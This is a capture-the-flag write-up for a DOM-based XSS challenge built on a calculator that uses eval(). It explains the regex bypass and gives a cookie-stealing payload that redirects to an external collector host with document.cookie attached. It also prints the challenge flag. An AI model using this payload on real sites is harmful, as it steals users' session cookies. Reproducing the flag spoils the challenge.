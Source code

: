 # XSS DOM Based - Eval

In this chall, you will be provided with a calculator that can add, substract, multiply and divide. There is only one input field so we will attack on that.

![anh1]()

Enter a string and this is what you'll get.

![anh2]()

If you look carefully, the regex is not very hard to bypass. Just input an expression at the start of the input, after that we can do anything we want.

Now I wil tell you how to solve this challenge. The `eval()` function can execute one or more commands in only one call like this:
`eval(<expression1>,<expression2>,<expression3>)`. For example, if you use `eval(alert(1),alert(2))`, you will get 2 popup alert box. So we will leverage this and solve this challenge. The payload to exploit this challenge will be like `1+1,<your payload>`. We use `1+1` to bypass the regex, after that we will use `,` to pass another parameter to the `eval()` function, that is our payload. However, if you use alert(), you will get this:

![anh3]()

The `()` is filtered, so I used `document.location` to XSS, and It's success! The payload I used to solved this challenge is  

```javascript

1+1,document.location="https://eo3f8xwoiu4uj8s.m.pipedream.net/?"+document.cookie

```

Wait for a short time and the flag is arrived :D

![anh4]()

Flag is `rootme{Eval_Is_DangER0us}`